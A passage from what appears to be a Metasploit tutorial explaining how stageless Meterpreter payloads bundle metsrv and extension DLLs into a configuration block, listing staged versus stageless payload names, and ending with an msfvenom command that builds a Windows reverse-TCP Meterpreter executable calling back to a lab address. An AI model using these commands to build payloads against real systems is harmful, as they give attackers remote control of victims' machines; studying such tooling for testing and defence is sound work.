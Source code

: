 With this shellcode stub wired into the DOS header, Metasploit adds the entire binary blob to an in-memory payload buffer and then iterates through the list of chosen extensions. For each extension that is specified, Metasploit does the following:
 
1. Loads the extension DLL into memory.
1. Calculates the size of the DLL.
1. Writes the size of the DLL as a 32-bit value to the configuration block.
1. Writes the entire body of the DLL, as-is, to the end of the conifiguration block.
 
Once the end of the list of extensions is reached, the last thing that is written to the payload buffer is a 32-bit representation of `0` (`NULL`) which indicates that the list of extensions has been terminated. This `NULL` value is what `metsrv` will look for when iterating through the list of extensions so that it knows when to stop. After this, any extension initialisation scripts are wired in (though that's beyond the scope of this article).
 
The final payload layout looks like the following:

```
+-+--------+-----------------------------------------------------------+
| |        |                    Configuration Block                    |
|b|        |+-----------+-+---------+-+---------+-------+-----------+-+|
|o|        ||  session  |S|         |S|         |       |           |N||
|o| metsrv ||    and    |i|  ext 1  |i|  ext 2  |  ...  | ext inits |U||
|t|        || transport |z|         |z|         |       |           |L||
| |        ||  config   |e|         |e|         |       |           |L||
| |        |+-----------+-+---------+-+---------+-------+-----------+-+|
+-+--------+-----------------------------------------------------------+
```

This payload can be embedded in an exe file, encoded, thrown into an exploit (assuming there's room!), and who knows what else! The important thing is that we now have all of the bits that we need in the one payload.
 
## How do I use stageless Meterpreter?
 
Firstly, it has a different name! It follows the same convention as all of the other staged vs stageless payloads:
 
| **Payload**      | **Staged**                             | **Stageless**                          |
| ---------------- | -------------------------------------- | -------------------------------------- |
| Reverse TCP      | `windows/meterpreter/reverse_tcp`      | `windows/meterpreter_reverse_tcp`      |
| Reverse HTTPS    | `windows/meterpreter/reverse_https`    | `windows/meterpreter_reverse_https`    |
| Bind TCP         | `windows/meterpreter/bind_tcp`         | `windows/meterpreter_bind_tcp`         |
| Reverse TCP IPv6 | `windows/meterpreter/reverse_ipv6_tcp` | `windows/meterpreter_reverse_ipv6_tcp` |
 
To create a payload using one of these babies, you use `msfvenom` just like you would any other payload.
 
To make a stageless payload that contains only `metsrv` we do the following:

```
$ ./msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 -f exe -o stageless.exe
```
